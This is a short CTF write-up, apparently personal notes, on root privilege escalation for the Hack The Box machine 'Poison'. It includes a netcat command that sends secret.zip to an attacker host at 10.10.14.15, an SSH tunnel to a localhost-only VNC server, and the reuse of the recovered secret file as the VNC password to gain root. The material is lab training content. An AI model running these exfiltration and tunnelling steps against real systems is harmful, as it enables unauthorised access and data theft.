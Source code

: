 # Privilege Escalation

## root
- First copy the secret.zip from the box to the local machine `cat secret.zip | nc 10.10.14.15 9001` on the remote machine while running `nc -lnvp 9001 > secret.zip`.
- Extract secret.zip using the password for charix

- Running ps aux, we can see root is running a  vnc server.
- ![[Pasted image 20210408101125.png]]
-  We can check netstat using `netstat -anlp tcp` to see that there can be two ports 5901 and 5801.We can use wget to check the headers from both the ports. Port 5901 seems like it.
- ![[Pasted image 20210408101108.png]]
- We can use ssh to tunnel to the box and configure it to port 5901. `ssh -L5901:127.0.0.1:5901 charix@10.10.10.84`, this way when we ping our port 5901, we are tunneling. This is also done because the server is running locally and we can't connect to it remotely.
- Now connect to the vncserver using vncviewer we are asked to authenticate
```bash
╭─norman@kali ~/Hack-The-Box/machines/poison ‹main*› 
╰─$ vncviewer 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
```
- We can use the secret file got from secret.zip as the password file, and get the root shell.
- ![[Pasted image 20210408101717.png]]
- ![[Pasted image 20210408101705.png]]